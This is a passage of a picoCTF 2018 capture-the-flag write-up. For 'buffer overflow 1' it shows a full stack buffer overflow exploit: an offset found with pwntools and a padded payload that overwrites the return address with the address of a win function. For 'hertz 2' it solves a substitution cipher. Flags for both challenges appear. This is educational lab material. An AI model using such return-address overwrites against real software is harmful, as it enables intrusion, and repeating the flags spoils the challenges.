 ```bash

$ python3
>>> from pwn import *
>>> cyclic_find(p32(0x6161616c))
44

$ python3 -c 'print("A"*44+"B"*4)' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
Segmentation fault

$ python3
>>> from pwn import *
>>> vuln = ELF('./vuln')
[*] '/root/ctf/picoCTF2018/buffer_overflow_1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
>>> p32(vuln.symbols['win'])
b'\xcb\x85\x04\x08'
>>> 'A'*44+'\xcb\x85\x04\x08'
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAË\x85\x04\x08'

python -c 'print "A"*44 + "\xcb\x85\x04\x08"' | ./vuln 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.
Segmentation fault
```
Now, we know it works. Move over to pico shell to find flag.
```bash
loans@pico-2018-shell:/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613
$ python -c 'print "A"*44 + "\xcb\x85\x04\x08"' | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy3656a9b3}Segmentation fault (core dumped)         
```
Informed by [article](https://medium.com/@isharaabeythissa/buffer-overflow-1-picoctf-done-by-ishara-abeythissa-2f85025956f0).
## ---hertz 2---
I used [https://quipqiup.com/](https://quipqiup.com/).
``` bash
$ nc 2018shell.picoctf.com 59771 > cipher
$ tail -n1 cipher
Ieq ujcpm nwkdr hkf sjbga klqw ieq otzv xky. C ptr'i nqocqlq ieca ca ajpe tr qtav gwknoqb cr Gcpk. Ci'a tobkai ta ch C akolqx t gwknoqb towqtxv! Kmtv, hcrq. Eqwq'a ieq hoty: gcpkPIH{ajnaicijickr_pcgeqwa_twq_ikk_qtav_owjhhlengg}
```
Plug into quipqiup and get the following output:
>The quick brown fox jumps over the lazy dog. I can't believe this is such an easy problem in Pico. It's almost as if I solved a problem already! Okay, fine. Here's the flag: picoCTF{substitution_ciphers_are_too_easy_lruffvhbpp}
